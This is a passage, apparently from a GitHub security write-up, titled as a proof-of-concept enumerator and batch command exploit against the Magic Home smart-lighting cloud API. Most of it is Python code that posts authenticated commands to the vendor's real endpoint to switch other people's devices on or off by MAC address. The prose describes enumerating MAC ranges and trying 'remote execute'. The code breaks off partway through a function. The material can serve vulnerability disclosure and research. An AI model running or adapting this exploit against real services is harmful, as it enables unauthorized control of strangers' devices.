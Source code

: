 #### PoC enumerator and batch command exploit

The proof of concept enumerates on the last bytes within the MAC range and returns findings.  It allows a test of the 'remote execute' if you are feeling daring.

```
import requests
import json
import os
from colorama import init
from colorama import Fore, Back, Style
import re

'''
1. First Stage Authentication
2. Second Stage Enumerate
3. Third Stage Remote Execute
'''

global found_macaddresses
found_macaddresses = []
global outtahere
outtahere = ""
q = "q"
global token


def turnOn(target, token):

    urlOn = "https://wifij01us.magichue.net/app/sendCommandBatch/ZG001"
    array = {
        "dataCommandItems":[
            {"hexData":"71230fa3","macAddress":target}
        ]
    }
    data = json.dumps(array)
    headersOn = {
        "User-Agent":"Magic Home/1.5.1(ANDROID,9,en-US)",
        "Accept-Language": "en-US",
        "Accept": "application/json", 
        "Content-Type": "application/json; charset=utf-8",
        "token":token,
        "Host": "wifij01us.magichue.net",
        "Connection": "close",
        "Accept-Encoding": "gzip, deflate"
    }
    print (Fore.WHITE + "[+] Sending Payload ...")
    response = requests.post(urlOn, data=data, headers=headersOn)
    if response.status_code == 200:
        if "true" in response.text:
            print (Fore.GREEN + "[*] Endpoint " + Style.RESET_ALL + f"{target}" + Fore.GREEN + " Switched On")
        else:
            print (Fore.RED + "[-] Failed to switch on Endpoint " + Style.RESET_ALL + f"{target}")

def turnOff(target, token):

    urlOff = "https://wifij01us.magichue.net/app/sendCommandBatch/ZG001"
    array = {
        "dataCommandItems":[
            {"hexData":"71240fa4","macAddress":target}
        ]
    }
    data = json.dumps(array)
```